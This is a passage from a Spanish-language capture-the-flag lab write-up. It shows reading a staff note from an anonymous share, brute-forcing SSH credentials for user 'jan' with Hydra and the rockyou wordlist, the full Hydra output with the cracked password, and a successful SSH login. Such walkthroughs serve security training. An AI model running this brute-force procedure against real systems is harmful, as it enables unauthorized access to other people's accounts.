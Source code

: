 Después de descargar el archivo staff.txt desde el recurso compartido Anonymous en el servidor `10.10.210.76`, procedí a revisar su contenido utilizando el comando cat.

```bash
cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

# Explotación

Dado que en el archivo staff.txt se mencionaban los usuarios "Jan" y "Kay", decidí realizar un ataque de fuerza bruta contra el servicio SSH del servidor 10.10.210.76, utilizando el nombre de usuario "jan" con la esperanza de descubrir su contraseña. Para ello, empleé la herramienta Hydra y el diccionario de contraseñas rockyou.txt.

```bash
sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.210.76 ssh 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-02 16:07:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.210.76:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[STATUS] 101.00 tries/min, 303 tries in 00:03h, 14344099 to do in 2367:01h, 13 active
[STATUS] 95.14 tries/min, 666 tries in 00:07h, 14343736 to do in 2512:40h, 13 active
[22][ssh] host: 10.10.210.76  login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-02 16:16:11
```

Tras descubrir la contraseña del usuario "jan" mediante un ataque de fuerza bruta en el servicio SSH, procedí a intentar un acceso SSH al servidor 10.10.210.76 utilizando dichas credenciales.

```bash
ssh jan@10.10.210.76                                                  
The authenticity of host '10.10.210.76 (10.10.210.76)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.210.76' (ED25519) to the list of known hosts.
jan@10.10.210.76's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


```